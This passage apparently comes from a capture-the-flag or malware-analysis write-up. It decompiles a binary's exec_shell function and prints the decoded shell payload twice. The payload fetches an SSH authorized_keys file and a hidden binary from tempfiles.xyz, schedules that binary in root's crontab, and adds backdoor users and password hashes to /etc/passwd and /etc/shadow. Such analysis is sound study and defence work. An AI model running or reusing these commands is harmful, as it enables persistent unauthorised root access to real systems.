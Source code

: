 Out of all the functions, `exec_shell` is the most unique because it actually executes something.

<figure><img src="../../../.gitbook/assets/image (33) (8).png" alt=""><figcaption></figcaption></figure>

We can see the `-c` flag, and it is passed to `execve`, which means that some commands are being executed here. However, `ghidra` is unable to to see what is being executed. When we open it up in `ida64`, we can see a huge chunk of hex.

<figure><img src="../../../.gitbook/assets/image (25) (8).png" alt=""><figcaption></figcaption></figure>

When converted to a string, it gives this:

{% code overflow="wrap" %}
```
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys; wget tempfiles.xyz/.main -O /var/lib/.main; chmod 755 /var/lib/.main; echo "* 3 * * * root /var/lib/.main" >> /etc/crontab; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd; while read -r user group home shell _; do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd; done < users.txt; rm users.txt;
```
{% endcode %}

We can tidy this up a bit:

```bash
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys
wget tempfiles.xyz/.main -O /var/lib/.main
chmod 755 /var/lib/.main
echo "* 3 * * * root /var/lib/.main" >> /etc/crontab
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd
while read -r user group home shell _
do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd
done < users.txt
rm users.txt
```
